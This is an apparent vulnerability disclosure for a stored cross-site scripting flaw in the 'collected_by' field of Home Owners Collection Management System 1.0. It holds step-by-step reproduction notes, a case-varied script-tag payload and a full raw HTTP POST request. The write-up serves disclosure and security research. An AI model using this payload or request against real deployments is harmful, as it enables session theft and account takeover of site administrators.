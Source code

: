 ## [Home Owners Collection Management System](https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)

### Exploit Title:Home Owners Collection Management System -  'collected_by' Stored Cross Site Scripting (XSS)
### Exploit Author: fuuzyap1

### Description:
A Stored Cross Site Scripting (XSS) vulnerability exists in Home Owners Collection Management System 1.0 via the Service List Section in login panel. an attacker can steal the cookies leading to Full Account Takeover.

### Exploit:
Login to the admin panel http://localhost/classes/Master.php?f=save_collection
Navigate to List of Collections and click on edit New button.
Inject the below payload in collected_by parameter

![image](https://user-images.githubusercontent.com/95869214/153041269-7d068b93-6a7b-4e9a-922c-f1b1b24c7a46.png)

![image](https://user-images.githubusercontent.com/95869214/153041503-e9a65bd1-fb93-49a6-8261-51dc2a56c3c8.png)


payload:
```
Sample Collector1231"<sCrIpT>alert(1)</ScRiPt>
```

requests:

```
POST /classes/Master.php?f=save_collection HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------144369869742587923891614191865
Content-Length: 1761
Origin: http://localhost
Connection: close
Referer: http://localhost/admin/?page=collections
Cookie: PHPSESSID=06uv4t86d27aq8auhuohh947s8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="id"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="date_collected"

2022-02-08
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="collected_by"

Sample Collector1231"<sCrIpT>alert(1)</ScRiPt>
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="member_id"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[3]"

100
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[3]"

3
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[4]"

100
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[4]"

4
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[1]"

200
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[1]"

1
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[5]"

50
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="fee[2]"

200
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="category_id[2]"

2
-----------------------------144369869742587923891614191865
Content-Disposition: form-data; name="total_amount"

600
-----------------------------144369869742587923891614191865--

#### Proof and Exploit:
![image](https://user-images.githubusercontent.com/95869214/153044852-cfaff0e0-ebcc-4e45-9428-69fe810f8ea3.png)

### Impact:
An attacker can able to inject malicious JavaScript code in Service List Section.


